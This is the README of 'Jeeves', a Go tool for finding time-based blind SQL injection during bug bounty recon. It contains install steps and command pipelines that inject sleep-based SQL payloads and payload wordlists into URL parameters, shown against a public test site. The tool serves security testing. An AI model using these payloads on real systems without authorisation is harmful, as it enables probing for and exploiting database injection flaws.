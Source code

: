 <h1 align="center">Jeeves</h1> <br>

<p align="center">
  <a href="#--usage--explanation">Usage</a> •
  <a href="#--installation--requirements">Installation</a>
</p>

<h3 align="center">Jeeves is made for looking to Time-Based Blind SQLInjection through recon.</h3>
<img src="gojayyyy.png">

## - Installation & Requirements:
```
> go install github.com/ferreiraklet/jeeves@latest

OR

> git clone https://github.com/ferreiraklet/jeeves.git

> cd jeeves

> go build jeeves.go

> chmod +x jeeves

> ./jeeves -h
```
<br>


## - Usage & Explanation:
  * In Your recon process, you may find endpoints that can be vulnerable to sql injection,
  
    * Ex: https://redacted.com/index.php?id=1

    <br>
  
    Jeeves reads from stdin:
  
    `echo 'https://redacted.com/index.php?id=your_time_based_blind_payload_here' | jeeves --payload-time time_payload`
    <br>
  
    In --payload-time you must use the time mentioned in payload.
 
    <br>
    
    **You can use a file containing a list of targets as well**:
  
    `cat targets | jeeves --payload-time 5`
  
    <br>
    
 * **You are able to use of Jeeves with other tools, such as gau, gauplus, waybackurls, qsreplace and bhedak, mastering his strenght**
    <br>
    * Another examples of usage:
  
    `echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves --payload-time 5`
    <br>
    `echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(10)))v)" | jeeves --payload-time 10`
    
    TIP:
    
    Using with sql payloads wordlist
    `cat sql_wordlist.txt | while read payload;do echo http://testphp.vulnweb.com/artists.php?artist= | qsreplace $payload | jeeves --payload-time 5;done`

<br>


## This project is for educational and bug bounty porposes only! I do not support any illegal activities!.

If any error in the program, talk to me immediatly.
